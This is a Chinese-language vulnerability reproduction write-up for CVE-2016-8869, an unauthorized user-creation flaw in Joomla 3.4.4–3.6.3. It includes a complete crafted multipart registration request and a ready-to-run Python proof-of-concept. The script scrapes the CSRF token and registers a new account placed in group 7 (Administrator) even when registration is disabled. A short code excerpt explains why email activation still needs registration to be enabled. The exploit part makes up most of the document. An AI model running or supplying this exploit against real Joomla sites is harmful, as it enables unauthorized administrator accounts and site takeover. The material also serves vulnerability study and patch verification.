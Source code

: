 （CVE-2016-8869）Joomla 3.4.4-3.6.3 未授权创建特权用户
======================================================

一、漏洞简介
------------

网站关闭注册的情况下仍可创建用户，默认状态下用户需要用邮件激活，但需要开启注册功能才能激活。

二、漏洞影响
------------

Joomla 3.4.4-3.6.3

三、复现过程
------------

-   首先在后台关闭注册功能，关闭后首页没有注册选项：

![1.png](resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId24.png)

-   .然后通过访问index.php抓包获取cookie，通过看index.php源码获取token：

![2.png](resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId25.png)

-   构造注册请求：

```{=html}
<!-- -->
```
    POST /index.php/component/users/?task=registration.register HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryefGhagtDbsLTW5qI
    ...
    Cookie: yourcookie

    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[name]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[username]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password1]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password2]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email1]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email2]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="option"

    com_users
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="task"

    user.register
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="yourtoken"

    1
    ------WebKitFormBoundaryefGhagtDbsLTW5qI--

-   发包，成功注册：

![3.png](resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId26.png)

### 补充

**2016-10-27 更新：**默认情况下，新注册的用户需要通过注册邮箱激活后才能使用。并且：

![4.jpeg](resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId28.jpg)

由于`$data['activation']`的值会被覆盖，所以我们也没有办法直接通过请求更改用户的激活状态。

**2016-11-01 更新：**

感谢三好学生和D的提示，可以使用邮箱激活的前提是网站开启了注册功能，否则不会成功激活。

我们看激活时的代码，在`components/com_users/controllers/registration.php`中第28-99行的activate函数：

    public function activate()
    {
        $user    = JFactory::getUser();
        $input   = JFactory::getApplication()->input;
        $uParams = JComponentHelper::getParams('com_users');
        ...

        // If user registration or account activation is disabled, throw a 403.
        if ($uParams->get('useractivation') == 0 || $uParams->get('allowUserRegistration') == 0)
        {
            JError::raiseError(403, JText::_('JLIB_APPLICATION_ERROR_ACCESS_FORBIDDEN'));

            return false;
        }

        ...
    }

这里可以看到仅当开启注册功能时才允许激活，否则返回403。

### poc

![5.png](resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId30.png)

    # coding: utf-8
    # CVE-2016-8869
    # author: Anka9080

    import re
    import requests
    import random

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[!] Cannot find CSRF token")
            return None
        print('[*] Your token is '+match.group(1))
        return match.group(1)

    def poc(target):
        headers = {
            "Content-Type":"application/x-www-form-urlencoded"
        }
        proxies = {
            'http':'127.0.0.1:8080'
        }
        s = requests.Session()
        r = s.get(target+'index.php/component/users/?task=registration.register',proxies=proxies) # get cookie
        token = extract_token(r)
        # print r.headers
        randstr = '_'+str(random.randint(1,10000))
        # build post data
        print('[*] create user: {}'.format('admin'+randstr))
        data = {
            # User object
            'task':(None,'user.register'),
            'option':(None,'com_users'),
            'user[name]': (None,'admin'+randstr),
            'user[username]': (None,'admin'+randstr),
            'user[password1]': (None,'admin'),
            'user[password2]': (None,'admin'),
            'user[email1]': (None,'admin'+randstr +'@xx.com'),
            'user[email2]': (None,'admin'+randstr +'@xx.com'),
            'user[groups][]': (None,'7'),   #  Administrator!
            token:(None,'1')
        }
        try:
            r = s.post(target+'index.php/component/users/?task=registration.register',files=data,proxies=proxies,allow_redirects=False)
            if 'index.php?option=com_users&view=registration' in r.headers['location']:
                print('[+] {} is vul !'.format(target))
                return True
        except Exception , e:
            print('[!] err: {}'.format(str(e)))

        return False


    if __name__ == '__main__':
        poc('http://localhost/joomla/Joomla_3.6.3-Stable-Full_Package/')    

参考链接
--------

> https://paper.seebug.org/86/
